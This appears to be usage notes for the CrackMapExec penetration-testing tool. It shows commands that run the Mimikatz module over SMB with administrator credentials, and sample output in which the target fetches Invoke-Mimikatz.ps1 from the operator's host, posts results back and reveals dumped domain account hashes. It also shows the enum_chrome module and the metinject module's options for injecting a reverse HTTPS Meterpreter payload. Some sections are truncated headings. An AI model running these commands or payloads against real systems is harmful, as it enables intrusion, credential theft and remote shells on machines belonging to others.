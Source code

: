 Run cme <protocol> <target(s)> -M <module name>.

For example to run the SMB Mimikatz module:

crackmapexec smb <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz

Viewing module options

cme <protocol> -M <module name> --options to view a modules supported options, e.g:

cme smb -M mimikatz --options

Using module options

Module options are specified with the -o flag. All options are specified in the form of KEY=value (msfvenom style)

Example:

cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'

Modules - MimiKatz

sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M mimikatz
CME          192.168.215.104:445 MEETINGROOM     [*] Windows 6.3 Build 9600 (name:MEETINGROOM) (domain:SE)
CME          192.168.215.104:445 MEETINGROOM     [+] MEETINGROOM\Administrator:PASS (Pwn3d!)
MIMIKATZ     192.168.215.104:445 MEETINGROOM     [+] Executed payload
MIMIKATZ                                       [*] Waiting on 1 host(s)
MIMIKATZ     192.168.215.104                   [*] - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
MIMIKATZ                                       [*] Waiting on 1 host(s)
MIMIKATZ     192.168.215.104                   [*] - - "POST / HTTP/1.1" 200 -
MIMIKATZ     192.168.215.104                   [+] Found credentials in Mimikatz output (domain\username:password)
MIMIKATZ     192.168.215.104                   SE\Meeting:280778ddbb374ab9d2df719
MIMIKATZ     192.168.215.104                   SE\MEETINGROOM$:0bfa8060fc6c6d42d6ea124
MIMIKATZ     192.168.215.104                   SE\MEETINGROOM$:b245712b92126c953f203d6a
MIMIKATZ     192.168.215.104                   [*] Saved Mimikatz's output to Mimikatz-192.168.215.104-2018-01-02_144545.log
[*] KTHXBYE!

Modules - Enum_Chrome

sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M enum_chrome

Getting Shells with CrackMapExec
Metasploit

Metasploit Module - Metinject

cme -M metinject --show-options
[*] metinject module options:

            LHOST    IP hosting the handler
            LPORT    Handler port
            PAYLOAD  Payload to inject: reverse_http or reverse_https (default: reverse_https)
            PROCID   Process ID to inject into (default: current powershell process)

SMB to Meterpreter shell
